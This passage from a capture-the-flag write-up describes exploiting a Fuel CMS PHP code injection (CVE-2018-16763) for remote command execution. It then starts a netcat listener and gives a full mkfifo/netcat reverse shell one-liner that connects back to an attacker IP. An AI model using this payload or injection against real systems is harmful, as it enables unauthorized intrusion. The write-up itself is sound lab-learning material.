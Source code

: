 **Lines 37 to 39**
Performs a basic check if the args, parsed as a URL, is a valid URL (if it includes the string 'http'). This is a very simple and naive check.

**Lines 41 to 49**
sends a simple get request to the designated URL to verify connectivity, exits the program if the server doesn't return a success code (200).

**While Loop (Lines 51–63)**
The script enters an loop that repeatedly prompts the user for shell commands. Each command is injected into a vulnerable endpoint _(`/fuel/pages/select/?filter=`)_ which is vulnerable to PHP code injection **(CVE-2018-16763)**. The command is URL-encoded and included in the request.

*Note: While the loop is persistent, the connection is not. Each command is sent as an independent HTTP GET request. The vulnerable page executes the command using PHP's `system()` function and returns the output inside an HTML response.*

The response is parsed and printed, and the loop continues until the user types `exit`.

---

Executing this script allowed me to perform RCE on the target machine.

![open reverse shell](../assets/img/posts/ctf/ignite/initialrce.png)



### 8. Preparing the Listener

To capture a reverse shell, I opened a new `tmux` window and started a listener using `rlwrap` and `netcat` on port 53:
~~~shell
rlwrap nc -lvnp 53
~~~



### 9. Triggering the Reverse Shell

Using the RCE vulnerability, I injected a reverse shell command pointing back to my machine. The reverse shell command was generated using *[revshells](https://www.revshells.com/)*

~~~shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.182.102 53 >/tmp/f
~~~
